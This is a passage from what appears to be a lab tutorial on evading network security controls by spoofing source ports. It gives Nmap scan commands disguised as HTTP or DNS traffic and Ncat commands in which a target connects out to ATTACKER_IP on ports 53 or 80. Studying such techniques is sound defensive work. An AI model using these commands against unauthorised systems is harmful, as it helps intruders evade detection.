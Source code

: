 ### __Manipulate (Source) TCP/UDP Port__

Generally speaking, the TCP and UDP source and destination ports are inspected even by the most basic security solutions. Without deep packet inspection, the port numbers are the primary indicator of the service used. In other words, network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyze the data carried by the TCP segments.

Depending on the target security solution, you can make your port scanning traffic resemble web browsing or DNS queries. If you are using Nmap, you can add the option `-g PORT_NUMBER` (or `--source-port PORT_NUMBER`) to make Nmap send all its traffic from a specific source port number.

While scanning a target, use `nmap -sS -Pn -g 80 -F MACHINE_IP` to make the port scanning traffic appear to be exchanged with an HTTP server at first glance.

If you are interested in scanning UDP ports, you can use `nmap -sU -Pn -g 53 -F MACHINE_IP` to make the traffic appear to be exchanged with a DNS server.

![](image-9.png)

Consider the case where you are using [Ncat](https://nmap.org/ncat). You can try to camouflage the traffic as if it is some DNS traffic.

- On the attacker machine, if you want to use Ncat to listen on UDP port 53, as a DNS server would, you can use `ncat -ulvnp 53`.
- On the target, you can make it connect to the listening server using `ncat -u ATTACKER_IP 53`.

Alternatively, you can make it appear more like web traffic where clients communicate with an HTTP server.

- On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
- On the target, connect to the listening server using `nc ATTACKER_IP 80`.

![](image-10.png)
